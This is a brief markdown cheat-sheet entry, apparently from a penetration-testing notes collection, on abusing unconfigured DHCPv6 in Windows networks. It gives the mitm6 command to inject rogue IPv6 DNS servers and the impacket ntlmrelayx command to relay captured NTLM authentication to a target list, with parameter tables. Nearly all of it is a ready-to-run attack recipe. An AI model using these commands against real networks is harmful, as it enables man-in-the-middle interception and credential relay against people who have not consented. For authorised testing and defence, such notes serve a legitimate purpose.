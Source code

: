 # When to use

If no protection is enabled for DHCPv6.  
Windows enables IPv6 By default but in a lot of networks no DHCPv6 (or slaac, ...) is configured.  
This allows the use of your own DHCPv6 server to inject your own DNS servers.  
Windows prefers the IPv6 above the IPv4 so you are sure your DNS servers are used.

# Attack  
## MITM

First start the DNS spoofing.  
This can be done with: mitm6  

```
mitm6.py -d $INTERNAL.DOMAIN --ignore-nofqdn
```

| Parameter        | Description           |
| ------------- |:-------------:| 
| d $INTERNAL.DOMAIN  | filter on what domains you want to spoof; $INTERNAL.DOMAIN should be domain that is used by the IPv4 clients | 
| -ignore-nofqdn | ignore DHCPv6 queries without FQDN| 

## ntlmrelayx (part of impacket)

```
ntlmrelayx -tf $file -smb2support -6
```

| Parameter        | Description           |
| ------------- |:-------------:| 
| tf $file  | the file that contains the targets | 
| smb2support  | enbale smb2 | 
| 6  | listen IPv4 & IPv6 | 
